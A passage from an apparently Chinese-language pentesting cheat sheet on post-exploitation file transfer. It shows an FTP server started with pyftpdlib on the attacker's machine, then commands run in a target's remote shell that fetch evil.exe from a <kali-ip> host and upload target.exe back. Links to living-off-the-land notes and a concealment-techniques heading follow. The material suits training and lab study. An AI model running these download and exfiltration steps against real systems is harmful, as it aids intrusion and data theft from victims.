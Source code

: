     攻击端使用 python 起 ftp:
    ```
    pip3 install pyftpdlib
    cd /tmp
    python3 -m pyftpdlib -p 8888
    ```
    此时目标机连接的时候,用户名为 anonymous,密码随意

- **目标机**
    目标机的远程 shell 上运行
    ```bash
    echo open <kali-ip> 21> ftp.txt
    echo username>> ftp.txt
    echo password>> ftp.txt
    echo bin >> ftp.txt
    echo GET evil.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp -s:ftp.txt
    ```

    目标机上传文件(连接状态):
    ```bash
    ftp> put target.exe(如果是 windows 且文件在其他盘,需使用绝对路径)
    ```

    关闭 ftp:
    ```bash
    /etc/init.d/pure-ftpd stop
    ```

    windows下
    ```
    ftp
    username
    password
    get file
    exit 或者 bye
    ```
    ```
    ftp -s:test.txt
    ```

### Linux lol

- [Linux LOL](../OS安全/Linux安全.md#lol)

### Win lol

- [Windows LOL](../OS安全/Windows安全.md#lol)

---

# 隐匿技术
